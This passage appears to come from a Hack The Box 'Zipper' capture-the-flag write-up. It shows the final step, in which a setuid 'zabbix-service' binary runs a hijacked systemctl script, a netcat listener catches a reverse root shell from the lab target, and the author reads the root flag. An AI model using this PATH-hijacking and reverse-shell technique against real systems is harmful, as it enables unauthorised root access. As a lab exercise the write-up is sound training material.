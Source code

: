 Then we execute `zabbix-service` and it spawn a shell as root.
```
zapper@zipper:~/utils$ ./zabbix-service
./zabbix-service
start or stop?: start
start
/home/zapper/utils/systemctl: 3: /home/zapper/utils/systemctl: rm: not found
```

```
root@ragingunicorn:~/htb/zipper# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 60846
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(zapper)
# cat /root/root.txt
/bin/sh: 2: cat: not found
# /bin/cat /root/root.txt
a7c743<redacted>
#
```